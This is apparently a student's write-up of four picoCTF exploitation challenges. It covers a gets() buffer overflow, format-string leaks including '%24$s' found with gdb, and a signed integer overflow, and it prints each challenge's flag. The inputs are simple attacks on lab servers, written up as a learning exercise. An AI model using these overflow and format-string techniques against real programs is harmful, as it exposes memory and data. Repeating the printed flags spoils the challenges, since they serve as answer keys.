 # buffer overflow 0
**FLAG** - picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
## Approach
To start off I downloaded the vuln.c file from  picoctf, and went through the program till I noticed this section of the code
![image](https://github.com/user-attachments/assets/f79aeebb-49ba-4147-9e3a-48ee83f5ed6f)

the `gets()` function is infamous for being a massive vulnerability due to its potential for allowing overflows, this coupled with the fact that the `vuln` function used
the strcpy function(also known for causing potential vulnerability entry points)


![image](https://github.com/user-attachments/assets/c65f2724-dbd9-425a-a900-a515f4c0d48c)


knowing these facts, and also that the challenge was named buffer overflow, I assumed that entering a string longer than 100 characters would overflow , so I just entered an
arbitarily long string

```bash
root@DESKTOP-MPJ395R:/mnt/c/Users/Aditya/Downloads# nc saturn.picoctf.net 49747
Input: zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
## Concepts Learnt
- Buffer Overflow

# format string 0
**FLAG** - picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
## Approach
After connecting to the instance, I am met with these options

```bash
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
```

I knew the challenge involved format specifiers in someway or another , so I chose `Gr%114d_Cheese` (no other options look like format specifiers), after entering this I was prompted with another message from the terminal

```bash
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```
From these options I chose `Cla%sic_Che%s%steak` because again format specifiers, ultimately this gives me the key, I think this works because all the `%s`
specifiers allow us to print stuff from the programs memory

## Incorrect Tangents
- Tried messing around with the `format-string-0.c` file
## Concepts Learnt
- Format String Attacks

# Two-Sum
**FLAG**- picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_bc0adfd1}
The Problem States to enter two positive integers whose sum is less than zero, and one of the hints alludes to integer overflow, afterwards I check the source code
it uses two signed ints to account for a and b
```c
static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}
```
knowing that I just enter 2147483647 as both a and b, because the max limit of a signed int is 2^31-1 and that is equal to 2147483647, now this prolly is true for 2147483647 + any number that is within the limits of an integer, but it gets the job done and retrives the flag.

## Incorrect Tangents
- The Objective was pretty straightforward, had no errors
## Concepts Learnt
- Integer Overflow

# Flag Leak
**FLAG** - picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}
## Approach
We are given a file vuln and we need to utilize that to exploit the location of the flag. first off I disassemble it with gdb to get the following output
```assembly
Dump of assembler code for function vuln:
   0x08049333 <+0>:     endbr32
   0x08049337 <+4>:     push   %ebp
   0x08049338 <+5>:     mov    %esp,%ebp
   0x0804933a <+7>:     push   %ebx
   0x0804933b <+8>:     sub    $0xc4,%esp
   0x08049341 <+14>:    call   0x80491f0 <__x86.get_pc_thunk.bx>
   0x08049346 <+19>:    add    $0x2cba,%ebx
   0x0804934c <+25>:    sub    $0x8,%esp
   0x0804934f <+28>:    push   $0x40
   0x08049351 <+30>:    lea    -0x48(%ebp),%eax
   0x08049354 <+33>:    push   %eax
   0x08049355 <+34>:    call   0x80492b6 <readflag>
   0x0804935a <+39>:    add    $0x10,%esp
   0x0804935d <+42>:    sub    $0xc,%esp
   0x08049360 <+45>:    lea    -0x1f9c(%ebx),%eax
   0x08049366 <+51>:    push   %eax
   0x08049367 <+52>:    call   0x80490f0 <printf@plt>
   0x0804936c <+57>:    add    $0x10,%esp
   0x0804936f <+60>:    sub    $0x8,%esp
   0x08049372 <+63>:    lea    -0xc8(%ebp),%eax
   0x08049378 <+69>:    push   %eax
   0x08049379 <+70>:    lea    -0x1f6d(%ebx),%eax
   0x0804937f <+76>:    push   %eax
   0x08049380 <+77>:    call   0x8049180 <__isoc99_scanf@plt>
   0x08049385 <+82>:    add    $0x10,%esp
   0x08049388 <+85>:    sub    $0xc,%esp
   0x0804938b <+88>:    lea    -0x1f67(%ebx),%eax
   0x08049391 <+94>:    push   %eax
   0x08049392 <+95>:    call   0x8049120 <puts@plt>
   0x08049397 <+100>:   add    $0x10,%esp
   0x0804939a <+103>:   sub    $0xc,%esp
   0x0804939d <+106>:   lea    -0xc8(%ebp),%eax
   0x080493a3 <+112>:   push   %eax
   0x080493a4 <+113>:   call   0x80490f0 <printf@plt>
   0x080493a9 <+118>:   add    $0x10,%esp
   0x080493ac <+121>:   sub    $0xc,%esp
   0x080493af <+124>:   push   $0xa
   0x080493b1 <+126>:   call   0x8049170 <putchar@plt>
   0x080493b6 <+131>:   add    $0x10,%esp
   0x080493b9 <+134>:   nop
   0x080493ba <+135>:   mov    -0x4(%ebp),%ebx
   0x080493bd <+138>:   leave
   0x080493be <+139>:   ret
```
after setting a breakpoint at 39, I run it to find out that its stored on the 24th location on the stack and after looking up format strings, I use `%24$s` to get the flag, or well the important part of it
## incorrect tangents
- kept disassembling main instead of the whole thing
- compiled vuln.c to vuln instead of just using the program provided
## Important concepts
- learnt a lot about format strings
- learnt more about using gdb as a tool

